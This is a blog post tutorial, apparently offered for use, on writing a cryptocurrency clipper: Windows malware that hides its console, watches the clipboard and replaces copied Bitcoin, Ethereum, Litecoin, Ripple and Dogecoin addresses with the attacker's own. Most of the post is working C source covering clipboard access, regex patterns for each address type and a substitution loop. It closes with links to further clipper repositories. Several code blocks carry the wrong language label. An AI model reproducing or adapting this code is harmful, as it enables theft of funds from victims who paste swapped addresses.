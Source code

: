 ```yaml
---
layout: post
title: "CLIPPER IN 30 MINUTES"
date: 2023-03-10T03:22:42Z
authors: ["Sage Kirk", "Mike Vance"]
categories: ["Development"]
description: "I won't say the product is good or bad as I haven't used it and can't claim anything. And now I will show that the task of writing your own clipper is not so difficult and many people can do it, especially those who have dealt with copy-pasted source codes in the public domain."
thumbnail: "/assets/images/blog/python-.jpg"
image: "/assets/images/blog/python-.jpg"
comments: false
---
```


# CLIPPER IN 30 MINUTES

I won't say the product is good or bad as I haven't used it and can't claim anything. And now I will show that the task of writing your own clipper is not so difficult and many people can do it, especially those who have dealt with copy-pasted source codes in the public domain.

## How the clipper works

Let's figure out what a clipper is. Clipper is a malicious program that replaces the crypto addresses in the clipboard with the attacker's addresses so that the victim sends them to the attacker while sending coins.
According to this description, we throw in a scheme of work:

Looks simple enough. Let's break down each block.
Obtaining and replacing the clipboard can be implemented through any library that works with winapi in any language.

**How to check if a text is an address? The answer is regular expressions (regex). What's this?**

Regular expressions - used in computer programs that work with text, a formal language for searching and manipulating substrings based on the use of metacharacters ( wildcard in text , . characters) To search, a pattern string is used ( English pattern, in Russian it is often called a "template", "mask"), consisting of characters and metacharacters and setting the search rule. For manipulations with text, a replacement string is additionally specified, which can also contain special characters.
For dummies, regular expressions are a formal language, thanks to which you can check if the text matches certain criteria - length, set of letters, and so on.
You can read more about them here . Checking for compliance occurs according to patterns (English pattern, we usually use the term "template"). Patterns can be easily found on the Internet by query "*crypt* address regex".
Now I will show with my example that writing your own clipper is much easier than you think.

## Clipper writing

I will write in C, it can be written even in python, but it is not recommended.
We create a project in Visual Studio, we create the main file in it, I called it main.c.

Since there is no regex library in the C standard library, I will use the impossibly crude but single and compact library tiny-regex-c . Download re.c and re.h, import them into the project.

We import the necessary libraries into main.c and hide the console through keywords for the compiler: 
```c
#include "re.h"
#include <windows.h>
#pragma comment(linker, "/SUBSYSTEM:windows /ENTRY:mainCRTStartup")
```
We write functions for getting and replacing the clipboard: 
```python
char* getclipboard()
{
    static HANDLE clip;
    if (OpenClipboard(NULL))
    {
        clip = GetClipboardData(CF_TEXT);
        CloseClipboard();
    }
    return (char*)clip;
}

void setclipboard(char* text)
{
    HGLOBAL global = GlobalAlloc(GMEM_FIXED, strlen(text) + 1);
    memcpy(global, text, strlen(text));
    if (OpenClipboard(NULL))
    {
        EmptyClipboard();
        SetClipboardData(CF_TEXT, global);
        CloseClipboard();
    }
}
```
We create a structure for wallets, it will allow you to easily add new wallets to the clipper (and with the help of regular expressions, you can add at least a substitution of payment links).
```python
typedef struct crypto {
    char* ptn;
    char* address;
}; 
```
We create variables in it with our wallets:
```python
const char* btcadr = "";
const char* segwitadr = "";
const char* ethadr = "";
const char* ltcadr = "";
const char* xrpadr = "";
const char* dogeadr = "";
```
We create structures for wallets and combine them into one list. The ptn variable is the regex pattern, the address variable is the address that will be substituted.

I will have 5 cryptocurrencies - Bitcoin (+SegWit addresses (bc1q)), Ethereum, Litecoin, Ripple, Dogecoin. 
```c
struct crypto btc = { .ptn = "^[13][a-km-zA-HJ-NP-Z1-9]*$", .address = btcadr };  // fixed length is not supported in tiny regex

struct crypto segwit = { .ptn = "^bc1q[a-zA-HJ-NP-Z0-9]*$", .address = segwitadr };  // p2pkh and p2wpkh have different regular expressions, since changing the legacy address to segwit (bc1q) will be noticeable

struct crypto eth = { .ptn = "^0x[a-fA-F0-9]*$", .address = ethadr };

struct crypto ltc = { .ptn = "^[LM3][a-km-zA-HJ-NP-Z1-9]*$", .address = ltcadr };

struct crypto xrp = { .ptn = "^r[0-9a-zA-Z]*$", .address = xrpadr };

struct crypto doge = { .ptn = "^D[5-9A-HJ-NP-U][1-9A-HJ-NP-Za-km-z]*$", .address = dogeadr };

struct crypto all[6] = { btc, segwit, eth, ltc, xrp, doge };  // where 6 is the number of services
```
Regular expressions have a non-fixed (*) number of repetitions. This is not so safe, since, say, the text 1abc will match the regular expression and will be replaced. It is used due to the fact that tiny-regex-c cannot be set to a fixed number of repetitions, in all languages ​​where it is supported, I urge you to set a fixed number of repetitions corresponding to the type of address.
Main Loop:
```js
while (1) {
         char*clipdata = getclipboard();  // get clipboard
         if (clipdata != NULL) { // if there is something in the buffer
             for (int i = 0; i < 6; i++) { // loop from all types of wallets, where 6 is the number of services
                 int matchlen;
                 int match = re_match(all[i].ptn, clipdata, &matchlen);  // check if the text in the buffer is the corresponding address
                 if (match != -1) { // if it is, change the clipboard to the address specified in the code
                     setclipboard(all[i].address);
                 }
             }
         }
         Sleep(50);  // so that the percent does not load, after each check, sleep for 0.05 seconds
     }
```
In the comments, I wrote down what each team is responsible for.

> It took me ～half an hour to write this clipper. Only 65 lines, the final stub weighs 12.5kb.
You can add substitution of other addresses on a regular basis in the same way as wallets are added above. Sending information about a PC and other garbage can be soldered by anyone, with Google.

## Sources :

**C Clipper** : [link](https://github.com/ratabomb/fuckclipper)
**C++ Clipper** : [link](https://github.com/sorosgamble/CoinClipper)
**Py Clipper** : [link](https://github.com/NightfallGT/BTC-Clipper)
**C# Clipper** : [link](https://github.com/SmokingWalrus/BTC-Clipper)
**PureBasic Clipper** : [link](https://github.com/fakkura/Clipper)